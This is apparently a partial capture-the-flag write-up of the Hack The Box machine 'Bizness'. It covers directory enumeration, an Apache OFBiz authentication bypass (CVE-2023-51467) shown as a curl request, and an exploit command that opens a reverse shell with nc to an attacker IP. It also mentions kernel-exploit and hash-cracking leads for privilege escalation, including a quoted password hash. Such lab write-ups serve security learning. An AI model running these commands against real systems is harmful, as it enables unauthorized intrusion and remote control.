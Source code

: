Let's continue without the walktrough

So I executed `dirb https://bizness.htb`
Gave me some interesting results
    https://bizness.htb/accounting
    This hosts ofbiz. I have no idea about the version

    Maybe it is vulnerable to CVE-2023-51467

Here is the exploit: https://github.com/K3ysTr0K3R/CVE-2023-51467-EXPLOIT/blob/main/CVE-2023-51467.py

The right command: python CVE-2023-51467.py -u https://bizness.htb

So we found a RCE vul... Cool.

Here is the curl command:
curl -k "https://bizness.htb/webtools/control/ping?USERNAME&PASSWORD=test&requirePasswordChange=Y"

With a little google search: https://github.com/jakabakos/Apache-OFBiz-Authentication-Bypass

I had an issue with my Java version but after I fixed it, I executed a reverse shell using this command (I peeked for it. :) 

python3 exploit.py --url https://bizness.htb/ --cmd 'nc -c bash 10.10.14.188 1337'

(Before that I had to execute the nc -lp 1337)
Now I have a shell on my machine. I verified it by ls
I am ofbiz (whoami)

After that I found the user.txt at the user home dir

Now I need some privilage escalation.
With `uname -r` i got the kernel version: 5.10.0-26-amd64
(The https://www.exploit-db.com/exploits/50808 is hard to use, but not impossible)
These looks primising, too.
I peeked to the walktrough and I know that I have to find a specific file named AdminUserLoginData
To be more general, checking files with names like Admin and Root seems a good idea

I checked the walktrough and I see that the solution is to find some files and grab the hashed, salted password.
From this point the walktrough is not deep, (The author starts with the AdminUserLoginData.xml which is a dead end and we wont need it, but a derby database file will contain the salted hashed admin password)

but I've found a forum about this machine:

https://breachforums.is/Thread-Bizness-HTB?page=6

The points are the following:
- This is a password, but we have no idea if it's salted or not or anything
- Also (if I understand correctly), this is just the root password for ofbiz, but maybe it's the same as the root password or we will know more from it 

This is rom the AdminUserLoginData.xml, but I couldn't do anything about it
"{SHA}47ca69ebb4bdc9ae0adec130880165d2cc05db1a"

- To know anything about this, we have to know the ofbiz deeply. It's open source and its crypto functions are here:

